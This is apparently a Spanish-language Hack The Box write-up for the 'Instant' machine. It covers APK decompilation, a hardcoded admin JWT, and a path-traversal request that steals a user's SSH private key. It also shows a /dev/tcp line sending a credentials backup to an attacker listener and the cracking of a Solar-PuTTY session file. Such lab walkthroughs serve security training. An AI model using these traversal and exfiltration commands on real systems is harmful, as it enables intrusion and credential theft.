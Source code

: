 -----
## Conexión a la VPN

Primero, nos conectamos a la VPN de Hack The Box (HTB) utilizando las credenciales proporcionadas.

### Verificando Conectividad

Para comprobar que tenemos conectividad con la máquina objetivo, realizamos un `ping` y observamos que el TTL es 63. Esto generalmente indica que la máquina está ejecutando un sistema operativo basado en Linux en entornos controlados como HTB.

```bash
ping <IP_de_la_máquina>
```

## Escaneo de Puertos

Realizamos un escaneo completo de puertos para identificar los servicios abiertos en la máquina:

```bash
sudo nmap -p- -sCV --open --min-rate=500 -n -vvv -Pn <IP_de_la_máquina> -oG escaneo
```

También realizamos un escaneo dirigido a los puertos 22 (SSH) y 80 (HTTP):

```bash
sudo nmap -sCV -p22,80 10.10.11.37 -oN targeted
```

## Configuración del Dominio

Para interpretar el dominio en nuestro navegador, lo agregamos al archivo `/etc/hosts` de nuestra máquina local:

```bash
echo "10.10.11.37 instant.htb" | sudo tee -a /etc/hosts
```

Ahora, al ingresar `instant.htb` en el navegador, ya no nos redirige a la página de inicio y muestra un botón para descargar un archivo APK.

## Análisis del Archivo APK

Descargamos el archivo APK y lo analizamos utilizando la herramienta `apktool` para descompilarlo:

```bash
apktool d instant.apk
```

Usamos `tree` para examinar la estructura de directorios y localizamos el archivo `strings.xml` en el que podríamos encontrar información sensible:

```bash
cat res/values/strings.xml
```

A continuación, filtramos por "instant.htb" para encontrar subdominios y otros detalles:

```bash
grep -r "instant.htb"
```

### Agregamos los Subdominios a /etc/hosts

Encontramos los subdominios `swagger-ui.instant.htb` y `mywalletv1.instant.htb` y los agregamos a nuestro archivo `/etc/hosts`:

```bash
echo "10.10.11.37 swagger-ui.instant.htb mywalletv1.instant.htb" | sudo tee -a /etc/hosts
```

### Accediendo a la API

Accedemos a `swagger-ui.instant.htb` para examinar los endpoints disponibles. Descubrimos que podemos enviar solicitudes POST a la API en `api/v1/admin/read/log`.

Al intentar obtener información de los logs, la API solicita una clave `APIKEY` que aún no poseemos. Por lo tanto, buscamos alguna cadena útil en el código fuente.
![[Pasted image 20250310225504.png]]
## Obtención del Token JWT

Revisamos el archivo `activity_forgot_password.xml` y encontramos un posible endpoint de autenticación, además de una cadena que parece un token JWT:

```plaintext
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA
```

Utilizamos [jwt.io](https://jwt.io/) para decodificar el token y obtener más información. Este token se usará para autenticar nuestras solicitudes a la API.

### Realizando una Solicitud Autenticada

Una vez autenticados con el token JWT, accedemos a los logs y obtenemos la información relevante.

![[Pasted image 20250310225616.png]]

## Acceso SSH con la Clave Privada

Al explorar los archivos de la máquina víctima, encontramos una clave privada SSH en el archivo `id_rsa` dentro de los logs. Usamos `curl` para obtener el contenido del archivo y lo guardamos en un archivo local:

```bash
curl -X GET "http://swagger-ui.instant.htb/api/v1/admin/read/log?log_file_name=..%2F..%2F..%2F..%2F..%2Fhome%2Fshirohige%2F.ssh%2Fid_rsa" -H "accept: application/json" -H "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA" | jq '.["/home/shirohige/logs/../../../../../home/shirohige/.ssh/id_rsa"][]' | tr -d '"' | sed 's/\\n//' > id_rsa
```

Concedemos permisos al archivo `id_rsa` y nos conectamos por SSH:

```bash
chmod 600 id_rsa
ssh -i id_rsa shirohige@<IP_de_la_victima>
```

Ahora tenemos acceso al servidor y podemos leer la primera bandera.

## Escalando Privilegios

Realizamos algunos intentos para escalar privilegios, pero no encontramos información útil en los comandos `sudo -l`, `find / -perm -4000 2>/dev/null`, `getcap -r / 2>/dev/null`, ni `ps -faux`. Sin embargo, encontramos un archivo interesante en `/opt/backups/Solar-PuTTY`.

### Descifrando el Archivo Base64

Dentro de `/opt/backups/Solar-PuTTY`, encontramos un archivo `sessions-backup.dat` que parece estar en base64. Utilizamos un script de GitHub para descifrarlo.

- **Repositorio para descifrar**: [GitHub Gist](https://gist.github.com/xHacka/052e4b09d893398b04bf8aff5872d0d5)

Primero, descargamos el script:

```bash
curl -O https://gist.githubusercontent.com/xHacka/052e4b09d893398b04bf8aff5872d0d5/raw/8e76153cd2d115686a66408f6e2deff7d3740ecc/SolarPuttyDecrypt.py
```

Ejecutamos el script para descifrar el archivo:

```bash
python3 SolarPuttyDecrypt.py
```

### Enviando el Archivo Descifrado

Utilizamos `nc` para escuchar el puerto 443 y enviar el archivo de la máquina víctima a nuestra consola:

```bash
cat < sessions-backup.dat /dev/tcp/10.10.16.29/443
```

En nuestra consola:

```bash
nc -nlvp 443 > session-backup.dat
```

Luego, ejecutamos el script para intentar encontrar la contraseña:

```bash
python3 SolarPuttyDecrypt.py session-backup.dat /usr/share/wordlist/rockyou.txt | tail -n 1 | jq
```
![[Pasted image 20250311005201.png]]
Una vez que encontramos la contraseña **Estrella**, la usamos para iniciar sesión como root:

```bash
sudo root
```

### Obteniendo la Segunda Bandera

Finalmente, ejecutamos los siguientes comandos para obtener la segunda bandera:

```bash
cd
cat root.txt
```

Y hemos terminado la máquina.

---

